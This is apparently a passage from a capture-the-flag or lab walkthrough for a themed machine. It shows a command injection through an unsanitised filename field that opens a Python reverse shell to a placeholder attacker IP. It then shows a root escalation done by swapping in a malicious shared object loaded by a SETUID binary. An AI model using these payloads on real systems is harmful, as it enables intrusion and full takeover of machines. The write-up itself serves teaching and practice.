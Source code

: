 If we submit the file to the API but with a PUT request the API will not sanitize the filename and this will lead to remote command execution!
If we inject the following payload
```sh
{"filename":"\"; python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"your.attacker.machine.ip\",attacker_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"bash\")' #"}

```
![Burpsuite filename payload](images/tgc/hard/admin_api_exploit.png)
 
# Privilege escalation
Once remote access has been obtained, the penetration tester can look to escalate privileges in order to completely exploit the machine and gather all kinds of information they were not supposed to.

As instructed, there are three different ways to achieve privilege escalation:

## 🟢 Easy path
In the home directory of the *saltbae* user there is a C executable called `shadow-butchers-client` that is used by the people hosting the website to connect to a *super secret black market* for buying meat! This executable has the SETUID bit set and is owned by the root user. It also presents the following features:
- List affiliated suppliers
- Order meat from suppliers
- Check meat in stock
- Sell meat (premium edition only)

The option to sell meat on the black market using this client is reserved only to those people who bought the premium edition. *Saltbae* already purchased the premium, indeed there is the `shadow-butchers-premium.so` file in the home directory, which is a shared object used by the main program to load the sell feature.

There is no check on the integrity of the `shadow-butchers-premium.so` so the attack consists of creating another file named `shadow-butchers-premium.so` and inserting the following content:

```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
static void inject()
__attribute__((constructor));
void inject() {
  setuid(0);
  system("/bin/sh");
}
// Optional
int sell() {
  printf("You are not selling anything today sir!");
}
```